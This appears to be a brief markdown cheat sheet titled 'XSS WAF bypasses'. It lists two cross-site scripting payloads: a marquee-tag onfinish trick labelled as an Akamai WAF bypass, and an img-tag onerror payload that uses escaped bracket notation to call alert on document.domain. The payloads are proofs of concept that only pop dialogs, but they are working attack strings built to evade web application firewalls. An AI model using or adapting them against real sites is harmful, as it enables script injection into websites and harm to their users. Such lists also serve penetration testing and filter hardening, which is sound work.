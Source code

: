 # XSS WAF bypasses

<marquee/loop=1+width=0+onfinish=[document.domain].map(confirm)> Akami WAF bypass.<br>
<img/src/onerror=self\[\'alert\'\]\(document.domain\)>
